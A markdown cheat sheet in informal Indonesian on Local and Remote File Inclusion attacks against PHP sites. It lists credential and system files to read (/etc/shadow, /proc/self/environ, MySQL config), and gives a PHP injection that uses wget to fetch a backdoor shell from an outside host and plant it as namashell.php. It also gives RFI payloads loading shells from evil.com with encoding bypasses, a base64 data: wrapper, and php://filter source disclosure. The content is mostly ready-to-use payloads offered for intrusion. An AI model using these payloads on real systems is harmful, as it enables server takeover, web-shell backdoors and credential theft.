 ### Local File Inclusion

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png">

<b><p>Basic Local File Inclusion</p></b>
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

### LFI Reserve Shell

Kita Perlu Collab Ama Bug Lain Gan Yaitu RCE
Dengan Ada Nya Bug RCE Kita Bisa Up Shell:v

Dengan Command wget cuk:v

Oke Kita Check /proc/self/environ dulu

```
http://site.com/index.php?page=/prov/self/environ
```
Simpel Aja Sih Jika Tereksekusi Maka Bisa Kita
Melakukan Up Shell...

Oke Perintah Nya Kayak Gini :
```
<?system ('wget http://dyan6etar.cf/shell.txt -O namashell.php');?>
```
Untuk Cara Up Shell Nya Check Di Bawah :

👉 [LFI Reserve Shell](https://youtu.be/yHVobQK9Ozo)

### Penjelasan
Oke Aing Jelaskan Dikit Perintah Wget Ini

wget menurut Otak : Menarik File Dari Luar Server Cuk Dan Membuatnya Di Dalam Server

-O Untuk Menamakan Nama File Nya 

Nah Ini http://dyan6etar.cf/shell.txt Adalah Shell BackDoor Yang Sudah Di Upload Ke Hosting Atau Pastebin Dengan Extensi txt

namashell.php Bisa Kalian Ubah Sesuka Hati 

Dan Jika Sudah Kita Bisa Langsung Akses Di Dokument root atau di parameter nya cuk

contoh dokumen root : site.com/namashell.php

di parameter : site.com/index?page=namashell.php

### Remote File Inclusion

Basic And Bypass 
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```
### RFI // LFI To XSS Via Payload
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```
note : Base64 Nya Lu Bisa Ubah Sendiri Encode / Decode Sendiri , ok?

### RFI // LFI WRAPPERS
```
http://site.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=index.php
```
Note : Untuk Bagian Ujung Kan Ada index.php Lu Bisa Ganti ,Ok? Example : page.php , admin.php , database.sql

Jika Ada Muncul Base64 Lu Decode Aja Dan Liat Isi Dari File Tersebut

Oke Next Gua Bakalan Bahas Basic Remote Code Execution , Babay!!
